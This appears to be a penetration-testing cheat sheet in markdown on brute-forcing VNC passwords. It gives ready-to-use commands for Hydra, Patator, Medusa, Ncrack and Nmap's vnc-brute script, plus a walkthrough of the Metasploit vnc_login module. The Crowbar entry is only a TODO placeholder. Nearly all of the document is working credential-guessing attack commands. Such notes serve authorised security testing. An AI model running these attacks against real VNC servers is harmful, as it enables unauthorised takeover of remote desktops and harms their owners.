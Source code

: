 # VNC

## 01 - Hydra

`$ hydra -vvv -P <password_list> -e nsr -t 16 <IP> vnc -o vnc_creds.txt`

## 02 - Crowbar

TODO: Provide a syntax of vnckey to brute force targets with crowbar

`$ crowbar`

## 03 - Patator

`$ patator vnc_login host=<IP> password=FILE0 0=<password_list> -t 1 -x retry:fgrep!='Authentication failure' --max-retries 0 -x quit:code=0 -R vnc_creds.txt`

## 04 - Medusa

`$ medusa -h <IP> -u root -P <password_list> -M vnc | tee vnc_creds.txt`

## 05 - Ncrack

`$ ncrack -V --user root -P <password_list> -oN vnc_creds.txt <IP>:5900`

## 06 - Metasploit

```
msf > use auxiliary/scanner/vnc/vnc_login

msf auxiliary(scanner/vnc/vnc_login) > options

Module options (auxiliary/scanner/vnc/vnc_login):

   Name              Current Setting                                                   Required  Description
   ----              ---------------                                                   --------  -----------
   BLANK_PASSWORDS   false                                                             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                 yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                             no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                             no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                             no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                              no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                            no        The password to test
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/vnc_passwords.txt  no        File containing passwords, one per line
   Proxies                                                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             5900                                                              yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                             yes       Stop guessing when a credential works for a host
   THREADS           1                                                                 yes       The number of concurrent threads (max one per host)
   USERNAME          <BLANK>                                                           no        A specific username to authenticate as
   USERPASS_FILE                                                                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                             no        Try the username as the password for all users
   USER_FILE                                                                           no        File containing usernames, one per line
   VERBOSE           true                                                              yes       Whether to print output for all attempts

msf auxiliary(scanner/vnc/vnc_login) > set rhosts <IP>

msf auxiliary(scanner/vnc/vnc_login) > set rport <PORT>

msf auxiliary(scanner/vnc/vnc_login) > set PASS_FILE </path/to/passwords.txt>

msf auxiliary(scanner/vnc/vnc_login) > set threads 4

msf auxiliary(scanner/vnc/vnc_login) > exploit
```

## 07 - Nmap

`$ nmap -p 5900 --script vnc-brute --script-args passdb=passwords.txt <IP>`

## References

- [Password Cracking VNC](https://www.hackingarticles.in/password-crackingvnc/)